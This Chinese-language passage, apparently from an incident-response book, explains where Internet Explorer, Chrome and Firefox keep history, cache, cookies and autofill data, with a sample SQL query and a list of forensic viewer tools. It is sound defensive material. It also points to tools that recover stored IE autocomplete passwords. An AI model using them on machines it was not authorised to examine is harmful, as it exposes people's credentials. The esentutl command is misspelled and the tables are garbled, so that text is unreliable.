我们将介绍当今使用最广泛的三种网络浏览器 - 微软Internet Explorer（IE），谷歌Chrome和Mozilla Firefox。根据像StatCounter这样追踪浏览器使用情况的主要网站，这三种浏览器占据了超过80％的所有网络浏览活动。根据我们在调查中中大型企业环境的经验，Internet Explorer通常是标准浏览器。我们将从此开始，然后介绍Chrome和Firefox。

#### **Internet Explorer**

Internet Explorer（IE）是由微软维护的闭源网络浏览器。IE默认安装在Windows操作系统上，并且通常是最受大型企业支持的浏览器。IE 1.0版本于1995年发布，并包含在Windows 95的OEM版本中。微软从Mosaic网络浏览器的开发者Spyglass购买了其基础技术。Internet Explorer for Mac还包括适用于Mac OS X的IE版本。但是，Mac OS的支持已经停止了将近10年，因此我们不会在本书中介绍Mac版的Internet Explorer。

#### **数据格式和位置**

Internet Explorer将数据存储在文件和注册表键的组合中。在本节中，我们首先介绍自动完成、输入的URL、首选项、缓存、书签和Cookie的位置。然后我们讨论历史记录，这可能会更加复杂，具体取决于您正在调查的IE版本。

自动完成、输入的URL和首选项设置数据都存储在Windows注册表中。自动完成有时被称为“表单数据”，它保存了用户在表单中提供的输入。数据存储在以下表中列出的两个注册表键中。由于自动完成数据可能包含敏感信息，包括密码，IE对数据进行了混淆。但是，有一些工具可以“解密”某些IE版本的数据 - 我们稍后会提到这个问题。输入的URL是用户在地址栏中手动输入并浏览的站点的有限历史记录。对应的64位Win32 FILETIME时间戳保存在第二个注册表键中。首选项保存在普通的注册表键和值中，其中大多数都有描述性的名称和值，例如“隐私”。以下表列出了IE存储自动完成、输入的URL和首选项数据的注册表位置：

|

```
							Artifact 			
					
				 | Location |
```

| --- | --- | |

```
							Autocomplete 

							

						
					
				 | HKEY_CURRENT_USER\\Software\\Microsoft\\Internet
```

Explorer\IntelliForms\Storage1 HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\IntelliForms\Storage2 | |

```
							Typed URLs 

						
					
				 | HKEY_CURRENT_USER\\Software\\Microsoft\\Internet
```

Explorer\TypedURLs

```
							HKEY_CURRENT_USER\\Software\\Microsoft\\Internet
```

Explorer\TypedURLsTime | |

```
							Preferences 

						
					
				 | HKEY_CURRENT_USER\\Software\\Microsoft\\Internet Explorer |
```

现在让我们来看看缓存、书签和Cookie的位置。这三个工件都保存为文件在文件系统中。书签和Cookie是位于下表中列出的位置的单独文件。书签是标准的Windows快捷方式文件，而Cookie则是纯文本文件。临时Internet文件是一个包含许多文件的缓存，因此它的结构由IE维护，并由多个子目录组成，其中存储数据。缓存文件是IE从服务器检索的数据的未修改副本，因此可以使用特定文件类型的适当查看器查看文件。缓存、浏览器和Cookie的位置取决于Windows的版本。我们在下面的两个表格中列出了默认位置。第一个表格列出了Windows Vista及更新版本的位置：

|

```
							Artifact 

						
					
				 | Location |
```

| --- | --- | |

```
							Cache 

						
					
				 | C:\\Users\\{username}\\AppData\\Local\\Microsoft\\Windows\\
```

Temporary Internet Files\ | |

```
							Bookmarks 

						
					
				 | C:\\Users\\{username}\\Favorites |
```

|

```
							Cookies 

						
					
				 | C:\\Users\\{username}\\AppData\\Roaming\\Microsoft\\Windows\\
```

Cookies

C:\Users\{username}\AppData\Roaming\Microsoft\Windows\ Cookies\Low |

第二张表列出了适用于Windows XP及更早版本的位置：

|

```
							Artifact

						
					
				 |  Location |
```

| --- | --- | |

```
							Cache 

						
					
				 | C:\\Documents and Settings\\{username}\\Local Settings\\
```

Temporary Internet Files | |

```
							Bookmarks 

						
					
				 | C:\\Documents and Settings\\{username}\\Favorites |
```

|

```
							Cookies

						
					
				 |  C:\\Documents and Settings\\{username}\\Cookies |
```

现在让我们来看一下IE是如何存储历史记录的。Internet Explorer 9及更早版本将历史记录存储在名为index.dat的专有数据库文件中。每个用户可能会存在多个index.dat文件，用于存储用户浏览历史的不同时间范围。从IE 10版本开始，微软放弃了使用index.dat文件来存储历史记录，而改为使用可扩展存储引擎（ESE）数据库格式。如果您对这些格式的内部结构有兴趣，可以在以下网站的下载部分找到PDF文档：

**在网络上获取**

**Index.dat详细信息** [code.google.com/p/libmsiecf](http://code.google.com/p/libmsiecf)**ESE详细信息** [code.google.com/p/libesedb](http://code.google.com/p/libesedb)

**Index.dat** IE 1-9版本的包含Internet历史记录的数据库称为index.dat。该数据库文件的内容取决于所存储的记录类型。例如，如果记录是用于Internet历史记录，那么存储的记录包括请求的URL、最后访问日期、文件修改日期和URL的过期日期。根据其功能和所使用的操作系统，index.dat文件在系统上的位置有所不同。以下表格总结了您可能会找到index.dat文件的最常见位置。

|

```
							OS 

						
					
				 | Locations |
```

| --- | --- | |

```
							Windows 95 –
```

Windows 98

```
				 | {systemdrive}\\Temporary Internet Files\\Content.ie5\\index
```

.dat {systemdrive}\Cookies\index.dat {systemdrive}\History\History.ie5\index.dat {systemdrive}\Windows\Cookies\index.dat {systemdrive}\Windows\History\index.dat

```
							• \\MSHist{digits}\\index.dat
```

• \History.IE5\index.dat • \History.IE5\MSHist{digits}\index.dat {systemdrive}\Windows\Temporary Internet Files\index.dat (IE4 only) {systemdrive}\Windows\Temporary Internet Files\Content .IE5\index.dat {systemdrive}\Windows\UserData\index.dat {systemdrive}\Windows\Profiles\{username} • \Cookies\index.dat • \History\index.dat • \History\MSHist{digits}\index.dat • \History\History.IE5\index.dat • \History\History.IE5\MSHist{digits}\index.dat • \Temporary Internet Files\index.dat (IE only) • \Temporary Internet Files\Content.IE5\index.dat • \UserData\index.dat

```
					 |
```

|

```
							Windows XP

						
						
							

								
							
						
					
				 | {systemdrive}\\Documents and Settings\\{username}
```

\Local Settings\Temporary Internet Files\Content.ie5\index.dat \Cookies\index.dat \Local Settings\History\history.ie5\index.dat \Local Settings\History\history.ie5\MSHist{digits}\index.dat \UserData\index.dat | | Windows Vista – Windows 8 | {systemdrive}\Users\{username} • \Roaming\Microsoft\Windows\Cookies\index.dat • \Roaming\Microsoft\Windows\Cookies\Low\index.dat • \Local\Microsoft\Windows\History\History.IE5\index.dat • \Low\index.dat • \index.dat\MSHist{digits}\index.dat • \Low\index.dat\MSHist{digits}\index.dat • \Local\Microsoft\Windows\Temporary Internet Files\ Content.IE5\index.dat • \Local\Microsoft\Windows\Temporary Internet Files\ Low\Content.IE5index.dat • \Roaming\Microsoft\Internet Explorer\UserData\ index.dat • \Roaming\Microsoft\Internet Explorer\UserData\Low\ index.dat |

**ESE** ESE（可扩展存储引擎）数据库从IE 10版本开始替代了index.dat文件的功能。每个用户的Internet浏览历史记录存储在单个数据库文件中。Microsoft过去曾在LDAP、Exchange和Windows搜索索引中使用过ESE。市场上有一些工具可以读取和解释这些数据，我们将很快介绍。以下表格列出了IE ESE数据库的位置和文件名：

|

```
							OS

						
					
				 |  Location |
```

| --- | --- | |

```
							Windows 7 – 8.1 Windows\\WebCache

							

						
					
				 | {systemdrive}\\Users\\{username}\\AppData\\Local\\Microsoft\\
```

• WebCacheV01.dat • WebCacheV16.dat • WebCacheV24.dat |

ESE数据库中将有多个表格；每个表格都根据需要被分配一个目的。要查找相关的表格，请在ESE数据库中查找名为Containers的表格。下面显示的这个表格列出了ESE数据库中所有其他表格的信息，以及相关数据存储的本地目录。


例如，与历史相关的表格都具有以MSHist开头的名称值。以下文章提供了有关检查ESE数据库的更多详细信息：

**在网上获取**

[articles.forensicfocus.com/2013/12/10/forensic-analysis-of-the-ese-database-in-internet-](http://articles.forensicfocus.com/2013/12/10/forensic-analysis-of-the-ese-database-in-internet-) explorer-10

#### **历史**

IE浏览历史记录了用户访问的URL。其中包括输入的URL、跟踪的链接和点击的书签。IE界面提供了选项，允许用户设置历史记录的最大存储期限，退出时清除浏览历史记录，或手动清除历史记录。有关确定浏览历史的存储期限的更多信息，请参见本章后面的“首选项”部分。如前一节所述，数据的存储方式根据IE版本而异。在IE 10之前的版本中，使用index.dat文件。从IE 10开始，历史记录存储在WebCache ESE数据库中。

#### **缓存**

为了提高Web浏览器的性能，IE将文件缓存在之前描述的临时Internet位置中。但是，请注意，用户可以在“浏览历史记录”Internet选项的“网站数据设置”对话框中更改缓存的路径。当重新访问页面时，浏览器将在根据用户的设置之前读取临时Internet中的数据下载新内容。缓存中的文件包括图像、HTML、文本、SWF和其他Web内容。IE允许用户使用以下选项设置缓存的行为：

- 从不
- 总是
- 重新启动IE
- 自动

这些设置允许用户确定浏览器应在何时检查页面上的新内容。浏览器会自动设置“自动”设置以确定访问频率和页面在访问之间的更改次数，以便在检查新内容之前。

用户可以手动清除缓存，或者设置浏览器在退出时清除缓存。缓存将保留一定数量的文件，由用户设置（在运行IE 10的Windows 7中默认为20）。此外，缓存设置还根据用户设置限制了要使用的磁盘空间的量，通常在50MB到250MB之间。这些操作将从临时Internet位置删除文件。

#### **Cookies (Cookie 饼干)**

各个版本的IE中的Cookie设置允许用户接受全部、阻止全部或者基于网站访问、第一方或第三方Cookie以及旨在保存某些类型信息的Cookie进行接受。IE将Cookie保存为前面描述的纯文本文件。这些文件包含用户访问的Web服务器设置的任意数据。Cookie可以包含表单数据、用户的公共IP地址、时间戳、地理位置等数据。

#### **书签 (Bookmarks 书签)**

Internet Explorer将书签称为“Favorites”并将它们保存为Windows Internet快捷方式文件。这些文件保存在用户个人资料目录下名为Favorites的文件夹中。文件扩展名为.url，内容以纯文本形式保存，可用任何文本编辑器查看。由于书签实际上是文件，所以它们具有与所使用的文件系统相关联的通常的时间戳。

#### **工具 (Tools 工具)**

Internet Explorer已经存在很长时间了，因此有很多工具可以用于分析IE的相关信息。除了前面在本节中提到的通用商业和免费工具之外，还提供了一些专门针对IE相关信息的免费工具。我们发现NirSoft的免费工具是一些维护得比较好、准确的IE浏览器相关信息分析工具。尽管这些工具可能不提供一些商业工具的强大功能，但它们仍然非常好用。

**在网络上获取它**

**缓存查看器** [www.nirsoft.net/utils/ie_cache_viewer.html](http://www.nirsoft.net/utils/ie_cache_viewer.html)**IE 4-9的历史记录查看器** [www.nirsoft.net/utils/iehv.html](http://www.nirsoft.net/utils/iehv.html)**IE 4-9的Cookie查看器** [www.nirsoft.net/utils/iecookies.html](http://www.nirsoft.net/utils/iecookies.html)**IE 10+的历史记录和Cookie查看器** [www.nirsoft.net/utils/ese_database_view.html](http://www.nirsoft.net/utils/ese_database_view.html)**IE4-9的自动完成** [www.nirsoft.net/utils/pspv.html](http://www.nirsoft.net/utils/pspv.html)

**IE10+的自动完成** [www.nirsoft.net/utils/internet_explorer_password.html](http://www.nirsoft.net/utils/internet_explorer_password.html)

在某些情况下，ESE数据库标记为“脏”，导致某些工具出现问题。您可能需要扫描文件以纠正此状态。有一个名为“esentutl”的工具内置于Windows中，可以尝试对ESE数据库进行修复。使用时，运行

```
     esenutul /p <filename>
```

其中<filename>是您的ESE数据库文件的路径。请务必先进行备份副本！

#### **Google Chrome (谷歌浏览器)**

谷歌的Chrome网络浏览器是浏览器市场上的新秀。它于2008年发布，并逐渐流行起来，成为最广泛使用的三种浏览器之一。谷歌在2008年底首次发布了适用于Windows的Chrome版本，然后在2010年发布了适用于OS X和Linux的稳定版本。Android和iOS版本在2012年发布。谷歌将浏览器的大部分源代码作为开源项目Chromium发布。谷歌将Chromium作为基础源代码，并在发布之前添加品牌和一些功能（包括Flash播放器、PDF查看器和自动更新程序）后发布为Chrome。Chrome 27及更早版本基于WebKit引擎，而28及更高版本基于WebKit的一个分支Blink。Chrome具有快速发布周期，谷歌的目标是每六周发布一个新版本的Chrome。

#### **数据格式和位置**

在“Chrome”文件夹中有“User Data”，其中包含“Default”目录，该目录包含有关用户活动的大部分数据。Chrome存储了大量关于用户的操作信息，但在此处我们仅限于讨论对事件响应者最有趣的工件。在当前支持的操作系统上，默认情况下，Chrome目录存储在用户的个人资料中。下表总结了在流行操作系统上的这些位置。

|

```
							Operating
```

System

```
				 | Chrome User Data Directory |
```

| --- | --- | |

```
							Windows XP 

						
					
				 | C:\\Documents and Settings\\{username}\\Local Settings\\
```

Application Data\Google\Chrome\ | |

```
							Windows 
```

Vista/7/8

```
				 | C:\\Users\\{username}\\AppData\\Local\\Google\\Chrome\\ |
```

|

```
							Linux 
						
					
				 | /home/{username}/.config/google-chrome/
```

| |

```
							OS X 

						
					
				 | /Users/{username}/Library/Application Support/Google/Chrome/ |
```

在Default目录下有许多文件和文件夹；随着Chrome的新版本增加了额外的功能，这些文件和文件夹的数量也在稳步增长。Chrome将大部分数据存储在SQLite数据库和JavaScript对象表示（JSON）文件中，其中大多数文件没有扩展名。您可以使用多种不同的工具（包括免费和商业工具）轻松查看这两种文件类型。稍后将更详细地介绍这些工具。在这些文件中，您将遇到许多不同的时间戳格式。Chrome同时使用了毫秒级的Unix（纪元）时间戳和WebKit时间格式。以下博客文章中有关于Chrome使用的不同时间格式的更多信息：

**GO GET IT ON THE WEB**

[linuxsleuthing.blogspot.com/2011/06/decoding-google-chrome-timestamps-in.html](http://linuxsleuthing.blogspot.com/2011/06/decoding-google-chrome-timestamps-in.html)

#### **历史记录**

文件“History”中的“urls”和“visits”表结合在一起提供了典型的浏览器历史记录数据：访问的网站和访问时间。除此之外，Chrome还保存了一些额外的信息，例如typed_count、visit_count和transition（用户是如何到达该页面的）。由于History文件只是一个SQLite数据库，您可以通过多种方式检索这些数据。其中最简单的方法之一是使用命令行工具（如sqlite3）查询数据库。以下查询将产生用户浏览历史的简单视图：

```
SELECT urls.id, urls.url, urls.title, urls.visit_count, urls.typed_count,
urls.last_visit_time, urls.hidden, urls.favicon_id, visits.visit_time,
visits.from_visit, visits.transition, visits.is_indexed
FROM urls, visits
WHERE urls.id = visits.url
```

文件“Archived History”是History的简化版本，用于跟踪三个月前的活动。它丢弃了Chrome使用的一些附属表，只保留了核心的“urls”和“visits”表，两者的结构和列与History中相同。

历史索引文件是潜在的宝藏。Chrome的“omnibox”（地址/搜索栏组合）是其关键功能，其他浏览器也在模仿。用户可以在omnibox中开始输入内容，Chrome将从许多来源提供建议；其中之一是用户过去的浏览活动。这些“History Index” SQLite文件包含用户访问过的网页的文本元素，以一种可以让Chrome非常快速地搜索所有文本以查找关键词的方式存储。对于调查人员而言，除了访问的网址，我们还有可能访问存储在这些文件中的用户查看的文本内容。同一网页可能存在多个历史索引记录，因此我们甚至有可能查看内容的“快照”。

#### **缓存**

与其他现代浏览器一样，Chrome使用缓存来存储可能再次使用以加快网页加载速度并减少重新下载每个页面元素的需求的下载文件。缓存可能包含有价值的信息，可以帮助重构用户所看到的访问过的网页，允许调查人员查看网页的源代码，并查看图像或其他支持文件。Chrome的缓存位于User Data\Default\Cache目录中，始终包含至少五个文件：index、data_0、data_1、data_2和data_3。index文件包含哈希表，详细说明缓存中每个文件的存储位置。其他文件被称为“block”文件，因为每个data_x文件以固定大小的块存储数据。如果要缓存的文件超过了一个这些块文件可以处理的最大大小（16KB），它将作为自己的文件存储在缓存文件夹中。当发生这种情况时，文件的名称更改为以“f_”开头，后面跟着一串十六进制数字。尽管这些f_文件没有扩展名，但如果您只想快速审核缓存文件，您可以使用签名分析来揭示它们的格式，而无需解析块文件（尽管文本文件，如HTML页面，是经过压缩的）。块文件包含保存的任何元数据，例如HTTP标头、文件名和地址。

#### **Cookies**

文件“Cookies”包含浏览器保存的所有cookie；Chrome使用数据库而不是许多单独的文本文件。host_key列存储设置cookie的域。对于事件响应者可能感兴趣的其他字段都具有相当描述性的名称：name、value、creation_utc和last_accessed_utc。时间戳存储在WebKit格式中。Cookie还可能包含一些有趣的标识信息，例如用户地理位置的提示（ZIP码或区号、纬度/经度坐标）或身份信息（用户名或电子邮件地址）。

#### **下载**

History文件还包含用户使用Chrome保存的文件的详细信息。旧版本的Chrome将所有这些数据保存在“downloads”表中；更新的版本（v26或更高版本）将其分为downloads和downloads_url_chains。所有版本的Chrome都保留了下载文件的URL、总大小、实际下载的字节数以及下载开始时间。更新的Chrome版本还会跟踪下载完成的时间、文件是否已打开以及Chrome是否认为文件是恶意的；这两个新功能对于某些调查人员可能提供了简单的收获。

#### **自动填充**

Chrome的自动填充功能旨在帮助用户记住他们在网站上输入的内容，并在用户在其他站点上遇到类似表单或再次访问相同站点时自动填充该值。为了实现这一点，Chrome记录用户输入到每个文本字段中的内容、文本字段的名称和时间戳。用户输入文本的网站没有明确保存，但可以通过将时间戳与其他Chrome工件进行关联来推断。Chrome将自动填充数据存储在Web Data文件中的多个不同表中的SQLite数据库中。自动填充功能默认启用，因此除非用户关闭了它，否则该文件应包含一些有趣的数据。

#### **书签**

Chrome将用户的书签存储在JSON对象中的文件Bookmarks中（副本存储在Bookmarks.bak中）。书签文件可以在文本编辑器或JSON查看器中轻松阅读。Chrome保存了添加书签的日期、其URL、书签标题和书签的文件夹结构。

#### **偏好设置**

用户偏好设置以JSON对象的形式存储在文件Preferences中（用户数据\默认\ Preferences）。在偏好设置文件中可能包含一些有趣的信息，包括已安装的扩展和插件的列表。如果用户正在使用Google Sync for Chrome，Preferences文件会详细说明哪些项目被同步，上次同步的时间以及关联的Google账户。某些设置会透露主机文件系统的目录结构的一些信息；例如，savefile.default_directory、selectfile.last_directory和download.default_directory可能包含显示文件系统上感兴趣位置的路径。其他可能感兴趣的偏好设置包括autofill.enabled、browser.clear_data和browser.clear_lso_data_enabled。

对于事件响应人员来说，可能会对一个偏好设置特别感兴趣，即profile. per_host_zoom_levels。该偏好设置跟踪用户在网站上放大或缩小页面的操作，以便Chrome在下次访问时记住该设置。从取证的角度来看，这个特定偏好设置的一个奇特之处在于，根据当前版本的Chrome（v27）的情况，即使清除了所有浏览器历史记录，这里列出的域名仍然会保留。由于这只提供顶级域名（而不是完整的URL），而且用户必须更改缩放设置才能创建此项遗留痕迹，因此它的使用是有限的，但还是值得检查一下。

#### **工具**

由于Chrome是主流浏览器中最年轻的浏览器，支持Chrome的取证工具较其他浏览器较少。Chrome的快速发布周期和众多版本也给工具开发人员带来了挑战；不同版本之间的更改有时会改变取证痕迹，而取证工具则需要较长时间才能跟上。Chrome的自动更新功能会在后台工作，以确保Chrome始终是最新版本，用户无需进行任何操作。这导致使用旧版本、不太安全的浏览器较少；然而，问题在于一些取证工具在处理更常见的较新版本的Chrome时效果不佳。

由于大多数Chrome的痕迹存储在SQLite数据库或JSON文件中，因此可以通过多种方式检索它们。一种方式是直接访问数据。有许多免费工具可用于读取SQLite和JSON格式。SQLite Database Browser和Firefox扩展SQLite Manager是流行的图形用户界面工具，可用于访问SQLite数据库，而sqlite3是一个免费的命令行浏览器。如果您具有编程经验，常用的脚本语言Python和Perl也提供了轻松访问这两种格式的能力。

**上网获取**

**SQLite Database Browser** [sourceforge.net/projects/sqlitebrowser](http://sourceforge.net/projects/sqlitebrowser)**Firefox SQLite Manager 扩展** [addons.mozilla.org/en-us/firefox/addon/sqlite-manager](http://addons.mozilla.org/en-us/firefox/addon/sqlite-manager)**sqlite3** [www.sqlite.org/download.html](http://www.sqlite.org/download.html)**Perl** [www.perl.org](http://www.perl.org/)**Python** [www.python.org](http://www.python.org/)

然而，在大多数情况下，您可能需要一个更全面的工具，它可以解析Chrome的痕迹并为您提供有用的数据显示。尽管Chrome是一个相对较新的浏览器，但由于其迅速增长的流行度，有许多免费和商业工具可供选择。除了本节开头提到的商业工具外，还有以下免费工具可用于解析和呈现Chrome的痕迹：

**上网获取**

**NirSoft ChromeHistoryView** [www.nirsoft.net/utils/chrome_history_view.html](http://www.nirsoft.net/utils/chrome_history_view.html)**NirSoft ChromeCacheView** [www.nirsoft.net/utils/chrome_cache_view.html](http://www.nirsoft.net/utils/chrome_cache_view.html)**Woanware ChromeForensics** [www.woanware.co.uk/forensics/chromeforensics.html](http://www.woanware.co.uk/forensics/chromeforensics.html)**Hindsight** [code.google.com/p/hindsight-internet-history](http://code.google.com/p/hindsight-internet-history)

所有这些工具都支持分析实时系统（很少需要），以及选择证据所在的特定目录。接下来我们将看一下Mozilla Firefox浏览器。

#### **Mozilla Firefox（Mozilla火狐浏览器）**

Firefox是一款开源的多平台网页浏览器。最初于2002年发布了Beta版本，名为“Phoenix”。由于商标问题，名称更改为Firebird，最后于2004年更名为Firefox。Firefox是从Mozilla应用项目中分叉出来的，该项目基于Netscape通信公司在1990年代所做的工作。Firefox迅速走红，但在2010年后趋于稳定。从2011年6月发布的Firefox 5版本开始，Firefox开发团队改变了发布策略。他们开始实施了所谓的“快速发布”策略，意图是每六周发布一个新版本或分支。此变化的宣称原因是为了更快地将新功能带给用户。然而，截至2013年12月，Firefox版本已经到达26，使用情况出现缓慢下降，主要是由于Google Chrome日益增长的受欢迎程度。

#### **数据格式和位置**

Mozilla和Chrome在数据存储方式上有许多相似之处。像Chrome一样，Mozilla几乎将所有数据存储在文件中，而Mozilla使用SQLite和JSON格式来存储大部分数据。数据存储在用户配置文件下的目录中，具体如下表所示：

|

```
							OS 

						
					
				 | Location |
```

| --- | --- | |

```
							Windows Vista and newer

						
						
							

						
					
				 | C:\\Users\\{username}\\AppData\\Roaming\\Mozilla\\Firefox
```

C:\Users\{username}\AppData\Local\Mozilla\Firefox (Cache) | |

```
							Windows XP and older Mozilla

							

						
					
				 | C:\\Documents and Settings\\{username}\\Application Data\\
```

C:\Documents and Settings\{username}\Local Settings\ Application Data\Mozilla (Cache) | |

```
							Linux 

						
					
				 | /home/{username}/.mozilla/firefox
```

/home/{username}/.cache/.mozilla/firefox (Cache) | |

```
							OS X 

						
					
				 | /Users/{username}/Library/Application Support/Firefox
```

/Users/{username}/Library/Caches/Firefox (Cache) |

对于给定的操作系统用户，Firefox 可以维护多个配置文件，尽管大多数用户通常只有一个。每个 Firefox 配置文件的数据存储在一个名为“.default”的扩展名为八个字符的随机命名目录中，该目录位于 Profiles 目录下，例如 e91fmfjw.default。在 Windows 和 OS X 中，Firefox 将这些配置文件目录放在一个名为 “Profiles” 的子目录中。在 Linux 下，Firefox 配置文件目录位于 “firefox” 目录中，没有额外的 Profiles 目录层级。Firefox 数据的一个好处是，通常情况下，同一版本的 Firefox 在所有操作系统上使用相同的文件名。此外，自 Firefox 版本 5 发布以来，文件名一直保持不变。我们观察到的 Firefox 遵循的命名规则在以下表格中详细说明：

|

```
							File Name 

						
					
				 | Format  | Purpose |
```

| --- | --- | --- | |

```
							cookies.sqlite 

						
					
				 | SQLite  | Stores cookie data. |
```

|

```
							places.sqlite 
						
					
				 | SQLite 
```

| Stores history data. In recent versions of Firefox, it also stores bookmarks and downloads. | |

```
							formhistory.sqlite 

						
					
				 | SQLite  | Stores form history for autocomplete features. |
```

|

```
							prefs.js 

						
					
				 | JS  | Stores Firefox user configuration preferences. |
```

|

```
							downloads.sqlite 

						
					
				 | SQLite  | Stores download information in versions up to
```

Firefox 19. | |

```
							bookmarks.html 

						
					
				 | HTML  | Stores bookmarks in very old versions of Firefox
```

(version 2 and older). |

一些Firefox的SQLite数据库使用了较新或可选的SQLite功能，这导致一些版本的SQLite工具无法打开它们。如果您的SQLite工具无法打开其中之一，请确保您使用的是最新版本的工具。即使您正在使用sqlite3命令行工具，您可能也需要使用来自SQLite网站的最新版本。

Firefox缓存存储在由Firefox管理的一系列文件夹中。与其他浏览器数据一样，Firefox为每个Firefox配置文件单独维护缓存目录。Firefox在名为“Cache”的目录中创建了16个目录，编号为0-9和A-F。Cache目录的位置路径在我们之前列出的缓存表中，位于相应的Firefox配置文件目录下。在本书中，我们不会涉及Firefox缓存存储的内部细节，但您可以在互联网上找到很好的文档，包括以下位置：

**在网络上获取**

[articles.forensicfocus.com/2012/03/09/firefox-cache-format-and-extraction](http://articles.forensicfocus.com/2012/03/09/firefox-cache-format-and-extraction)[code.google.com/p/firefox-cache-forensics/wiki/FfFormat](http://code.google.com/p/firefox-cache-forensics/wiki/FfFormat)

Firefox具有用户可配置的“清除历史记录”设置，其中包括先前提到的所有工件。Firefox可以按需清除历史记录，还可以配置在退出时清除历史记录。我们将很快介绍可以查看这些设置的位置。

在接下来的几节中，我们会对每个Firefox工件进行更详细的介绍。对于大多数这些工件，您会希望使用专门设计用于此任务的工具，而不是手动尝试查询SQLite数据库。我们只是添加了一些额外的细节，以便您了解数据存储的更多信息，以便在使用工具时遇到问题时可以进行调查。Firefox浏览器部分的末尾列出了一些有用的工具。

#### **历史记录**

Firefox将用户的浏览历史记录存储在SQLite数据库places.sqlite中。两个表moz_places和moz_historyvisits存储了基本的浏览历史数据：记录在这些表中通过moz_places的id字段和moz_historyvisits的places_id字段进行关联。与Chrome历史记录使用的SQL查询非常相似，您也可以使用类似的SQL查询来显示用户的基本浏览历史。

#### **下载**

每次下载文件时，Firefox都会存储有关下载的信息，除了标准的历史记录条目。Firefox下载信息最初存储在名为downloads.sqlite的独立SQLite数据库中。模式非常简单，数据存储在名为moz_downloads的单个表中。从Firefox的20版本开始，随着新的下载管理器引入的更改，下载跟踪移到了places.sqlite数据库中的名为moz_annos的表中。旧的downloads.sqlite数据库不再使用。

#### **书签**

在Firefox 2及更早版本中，用户书签存储在一个HTML文件中。您可以使用任何Web浏览器或文本编辑器查看该文件。Firefox的第3版于2008年发布，书签被移至places.sqlite数据库的moz_bookmarks表中。moz_bookmarks中的条目通过使用“fk”字段与moz_places中的“id”字段链接。这个链接很重要，因为moz_bookmarks表中不包含书签的URL - 它在moz_places中。

#### **自动填充**

自动填充或表单历史数据存储在formhistory.sqlite SQLite数据库中。一个名为moz_formhistory的表包含表单历史数据记录。记录是简单的键/值对，还包含额外的元数据，如第一次使用该值的时间，最后一次使用该值的时间和总次数。在大多数入侵调查中，表单数据通常不太有用，但在其他类型的调查中非常有用。

#### **Cookies（饼干）**

Firefox将网站的cookie数据存储在cookies.sqlite数据库中。一个单独的表moz_cookies包含了每个保存的cookie的所有数据。在一些调查中，cookie本身是有用的，但在大多数事件响应场景中，您主要关心与任何cookie相关的域名和时间戳。

#### **Preferences（偏好设置）**

Firefox有很多用户可配置的设置。它们都保存在一个名为prefs.js的文件中。该文件是纯文本文件，可以用任何文本编辑器查看。一些偏好设置对浏览器工件的可用性有很大影响。具体来说，Firefox可以配置为在退出时清除浏览器工件，或者根本不保存历史记录。用户还可以通过用户菜单随时清除工件。下表列出了影响浏览器工件创建的Firefox设置：

|

```
							Setting 

						
					
				 | Effect |
```

| --- | --- | |

```
							user_pref(“browser.privatebrowsing.autostart”, true); 

						
					
				 | When true, Firefox will not save any history. |
```

|

```
							user_pref(“privacy.sanitize.sanitizeOnShutdown”, true);
```

user_pref(“privacy.clearOnShutdown.offlineApps”, true); user_pref(“privacy.clearOnShutdown.passwords”, true); user_pref(“privacy.clearOnShutdown.siteSettings”, true);

```
				 | When true, Firefox will clear
```

history, including the specified artifacts, on exit. | |

```
							user_pref(“browser.cache.disk.capacity”, This setting limits the size (in KB)
```

358400); of the Firefox browser cache. If it’s

```
				 | set to a low number, Firefox will
```

not have as many cache artifacts. |

#### **缓存**

Firefox缓存存储了用户访问的网站和其他服务器检索到的内容的本地副本。默认情况下，Firefox缓存的数据限制为350MB。较旧且不经常使用的数据将根据需要进行循环替换。与任何其他缓存一样，主要目的是加快用户体验 - 许多下载的项目将被重复使用。在事件期间，缓存可能会存储用户访问的恶意网站的数据副本，或者甚至保存攻击者在控制计算机时查看的网站数据。用户可以通过Firefox用户菜单手动清除Firefox缓存和其他工件（如cookies）。

#### **工具**

正如你可能已经猜到的那样，SQLite数据库浏览器是一种可以用来检查Firefox创建的许多浏览器工件的工具。虽然使用SQLite是一种手动且常常繁琐的方法，但有时由于更全功能的工具中存在的错误或不支持的功能，它是必要的。在本节的开头提到了一些SQLite数据库浏览器。

与Internet Explorer和Chrome一样，我们在“网络浏览器”部分的开头提到的商业和免费工具都是对Firefox工件进行分析的良好选择。还有一些特定于Firefox的免费工具，我们看到的一些最好的工具是由NirSoft编写的：

**在Web上获取它**

第14章 调查应用程序

445

**历史记录查看器 Cookie查看器 缓存查看器 下载查看器** [www.nirsoft.net/utils/firefox_downloads_view.html](http://www.nirsoft.net/utils/firefox_downloads_view.html)

[www.nirsoft.net/utils/mozilla_history_view.html](http://www.nirsoft.net/utils/mozilla_history_view.html)[www.nirsoft.net/utils/mzcv.html](http://www.nirsoft.net/utils/mzcv.html)

[www.nirsoft.net/utils/mozilla_cache_viewer.html](http://www.nirsoft.net/utils/mozilla_cache_viewer.html)

### **电子邮件客户端**

在许多调查中，电子邮件是关键证据的主要来源。在入侵调查中，常见的初始攻击向量是“钓鱼”——攻击者以社交工程电子邮件针对受害者。在恐吓软件诈骗中，攻击者有时会从伪造或盗窃的电子邮件帐户发送电子邮件。在其他犯罪活动中，恶棍们可能会使用电子邮件来协调活动或传输数据。最后，不要忘记电子邮件帐户也是直接目标——一些攻击者有兴趣窃取电子邮件。在所有这些情况下，了解使用的常见电子邮件应用程序，以及数据存储的位置，存储的内容以及如何进行分析都非常重要。

最基本的数据是电子邮件本身。电子邮件内容包含两个主要部分——一个称为“正文”和一个称为“标题”。正文是电子邮件的实际内容，例如文本或附件。正文通常以多用途互联网邮件扩展（MIME）格式进行编码。该编码标准是为了确保在电子邮件通过不同类型的电子邮件系统时正确处理较新的多媒体内容。标题包含处理信息，例如发件人的电子邮件地址，收件人的电子邮件地址，发送日期，主题，电子邮件经过的服务器列表以及许多其他可能的字段。

解码电子邮件标题可能非常复杂。如果您需要额外的帮助，以下互联网资源应该有所帮助。但要小心Google Apps链接，因为您可能不希望将敏感数据粘贴到该网站中。

**上网找吧**

[www.arclab.com/en/amlc/how-to-read-and-analyze-the-email-header-fields-spf-dkim.html](http://www.arclab.com/en/amlc/how-to-read-and-analyze-the-email-header-fields-spf-dkim.html)[www.jdfsl.org/subscriptions/abstracts/JDFSL-V6N2-column-Banday.pdf](http://www.jdfsl.org/subscriptions/abstracts/JDFSL-V6N2-column-Banday.pdf)[toolbox.googleapps.com/apps/messageheader](http://toolbox.googleapps.com/apps/messageheader)

